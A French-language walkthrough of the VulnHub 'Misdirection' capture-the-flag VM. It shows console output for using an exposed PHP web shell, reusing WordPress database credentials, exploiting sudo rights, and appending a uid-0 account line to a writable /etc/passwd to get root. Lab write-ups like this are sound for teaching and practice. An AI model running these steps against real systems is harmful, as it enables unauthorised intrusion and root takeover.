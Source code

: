 ```yaml
---
title: "Solution du CTF Misdirection de VulnHub"
tags: [CTF,VulnHub]
---
```


[Misdirection](https://vulnhub.com/entry/misdirection-1,371/) est un CTF assez simple, mais qui contient quelques trolls, ce qui explique sans doute le nom du CTF.

On trouve une appli web en Python sur le port 80 et un serveur web plus standard sur le port 8080 :

```
Nmap scan report for 192.168.56.212
Host is up (0.00028s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Rocket httpd 1.2.6 (Python 2.7.15rc1)
3306/tcp open  mysql   MySQL (unauthorized)
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-enum: 
|   /wordpress/: Blog
|   /wordpress/wp-login.php: Wordpress login page.
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /debug/: Potentially interesting folder
|   /development/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /help/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|   /manual/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_  /scripts/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
```

L'appli web Python est [GitHub - mdipierro/evote: A system for secure, trusted, and verifiable voting on the web](https://github.com/mdipierro/evote) et se base sur le framework `web2py`.

Je n'ai pas trouvé d'exploit sur `exploit-db` ni de mention de vulnérabilité sur le projet Github donc je me suis tourné vers le port 8080.

Le wordpress trouvé par `Nmap` est configuré pour une autre adresse IP, le rendant quasi inexploitable.

Enfin le dossier `/debug` correspond à [GitHub - flozz/p0wny-shell: Single-file PHP shell](https://github.com/flozz/p0wny-shell) et on peut exécuter des commandes en tant que `www-data`.

Une fois un shell plus interactif récupéré, j'ai d'abord fouillé dans le MySQL à l'aide des identifiants que j'ai trouvés dans le fichier de configuration de Wordpress :

```console
www-data@misdirection:/var/www/html/wordpress$ mysql -u blog -pabcdefghijklmnopqrstuv wp_myblog
mysql: [Warning] Using a password on the command line interface can be insecure.
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 33
Server version: 5.7.26-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2019, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> select * from wp_users;
+----+------------+------------------------------------+---------------+------------------+----------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email       | user_url | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+------------------+----------+---------------------+---------------------+-------------+--------------+
|  1 | admin      | $P$BC4vcMsqXqr/cc46cx.E1arnrBq1yU/ | admin         | admin@brexit.com |          | 2019-06-01 06:08:19 |                     |           0 | admin        |
+----+------------+------------------------------------+---------------+------------------+----------+---------------------+---------------------+-------------+--------------+
1 row in set (0.00 sec)
```

Le hash semblait costaud, j'ai donc larch l'affaire.

J'ai ensuite regardé dans le fichier de configuration `/home/brexit/web2py/applications/init/private/appconfig.ini` de l'appli de vote électronique.

Il était mention d'une base sqlite. Cette dernière contient un hash :

```console
$ sqlite3 storage.sqlite 
SQLite version 3.42.0 2023-05-16 12:36:15
Enter ".help" for usage hints.
sqlite> .tables
auth_cas         auth_membership  ballot         
auth_event       auth_permission  election       
auth_group       auth_user        voter          
sqlite> select * from auth_user;
1|brexit|brexit|brexit@brexit.com|pbkdf2(1000,20,sha512)$b84155cf478dcabe$0b88e35739f7ec70bd553e759d00eb441b12bbfb||||T
```

Je ne suis pas parvenu à mettre en forme le hash pour le casser avec `JohnTheRipper` mais je n'en ai pas eu besoin, car j'ai pu me connecter simplement sur l'appli web avec l'email trouvé et le mot de passe `brexit`.

Sur l'appli je peux éditer le texte affiché dans les mails lors des votes, mais je ne suis pas parvenu à injecter du code Python via `STTI`.

C'est sans doute possible, mais la VM étant en host-only elle ne peut pas vraiment envoyer les mails...

Finalement je me suis rendu compte que l'utilisateur `www-data` pouvait obtenir un shell en tant que `brexit` :

```console
www-data@misdirection:/tmp$ sudo -l
Matching Defaults entries for www-data on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on localhost:
    (brexit) NOPASSWD: /bin/bash
```

On obtenait alors le premier flag.

```console
www-data@misdirection:/tmp$ sudo -u brexit /bin/bash
brexit@misdirection:/tmp$ cd
brexit@misdirection:~$ ls
start-vote.sh  user.txt  web2py
brexit@misdirection:~$ cat user.txt 
404b9193154be7fbbc56d7534cb26339
```

Je n'ai rien remarqué de sensible lié à l'UID de l'utilisateur, mais en cherchant les fichiers liés au groupe `brexit` c'est plus intéressant :

```console
brexit@misdirection:~$ find / -group brexit -ls 2> /dev/null | grep -v /proc | grep -v /home
   136180      4 -rw-rw-r--   1 root     brexit       1648 May 22 09:01 /etc/passwd
   153237      4 -rw-rw-r--   1 root     brexit       1617 Jun  1  2019 /etc/passwd-
```

Je peux donc rajouter une ligne à `/etc/passwd` pour créer un compte privilégié.

```console
brexit@misdirection:~$ echo hax0r:ueqwOCnSGdsuM:0:0::/root:/bin/sh >> /etc/passwd
brexit@misdirection:~$ su hax0r
Password: 
# cd /root
# ls
root.txt
# cat root.txt
0d2c6222bfdd3701e0fa12a9a9dc9c8c
```

Une autre solution serait d'utiliser le fait que l'utilisateur fasse partie du groupe LXD (voir [lxd/lxc Group - Privilege escalation - HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)).
